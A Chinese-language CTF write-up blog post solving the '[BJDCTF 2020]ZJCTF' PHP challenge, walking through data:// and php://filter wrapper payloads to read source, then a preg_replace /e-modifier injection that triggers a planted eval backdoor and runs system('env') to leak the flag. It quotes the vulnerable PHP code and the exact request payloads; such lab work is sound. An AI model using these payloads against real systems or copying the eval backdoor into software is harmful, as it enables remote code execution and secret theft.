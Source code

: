 ```yaml
---
date: 2024-05-26
categroies: 
    - BJDCTF
tag:
    - RCE
    - PHP
    - php伪协议 
    - 正则
---
```


# 每日一题 —— [BJDCTF 2020]ZJCTF，不过如此

> 题目地址： <https://www.nssctf.cn/problem/717>   

<!-- more -->

## index.php

第一步是白盒，观察代码，发现我们要传入两个参数，一个是 `text`，一个是 `file`。为了让我们能够成功包含 `next.php`， 我们需要满足函数 `file_get_contents` 可以从 `text` 参数中作为文件读取数据。我们使用 `data` 伪协议传入数据：


```
?text=data://text/plain,I%20have%20a%20dream
```

然后，我们通过同样的方法将 `next.php` 给包含进来。为了防止该 php 文件被解析，我们使用同样的方法包含这个文件，那么在该 `index.php` 文件下，最终 payload 为：

```
?text=data://text/plain,I%20have%20a%20dream&file=php://filter/convert.base64-encode/resource=next.php
```

将得到的 base64 数据丢进 CyberChef 中得到 `next.php` 的源代码：

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

## next.php

现在转到 `next.php` 文件，一片空白需要我们传参。注意到有一个 `getFlag()` 方法调用了一句话木马，但是主程序并没有入口调用它。观察到主程序调用了 `complex` 函数，而 `complex` 函数调用了 `preg_replace` 函数。注意到其中的正则表达式中有一个 `e` 修饰符，经过搜索，发现它是 php 已废弃的修饰符，会调用 `eval` 方法并执行第二个参数 —— `replacement` 的内容。因此从此入手。

解析 `preg_replace` 函数，发现它扫描每一个 GET 的键值对，将 key 作为扫描的字符串，包裹上小括号并传递给第二个参数。此步骤是正则表达式的反向引用。而 `\\1` 就代表读取此前扫描字符串中第一个小括号包裹的内容。总结就是：对于传入的每一个键值对，此函数会操作该 `value` ，将 `key` 作为扫描字符串并替换为 `strtolower(key)` 。此函数会执行 `key` 参数，并认为 `key` 为一个普通的字符串。

观察到 `\\1` 周围包裹的为双引号，此引号内会解析变量，并且变量内部可以执行一个函数命令。那么构造该键值对： `\S*=${getFlag()}` 其中，`\S*` 代表所有字符组成的字符串，可以包括 `value` 中的所有信息。而 `${getFlag()}` 则会在解析变量的时候运行危险后门函数。因此同时我们就可以通过 `cmd` 参数实现 RCE。

最终 payload：

```
next.php?\S*=${getFlag()}&cmd=system('env');
```

在输出中发现环境变量有 `FLAG` 变量。

---
ps: 不知道为什么，无论是 `\S*` 参数还是 `cmd` 参数，都无法直接运行 `phpinfo()` 函数，只要运行就会爆“连接已重置”的问题。不知道这个是服务器问题还是我的问题，毕竟别的函数都是可以使用的。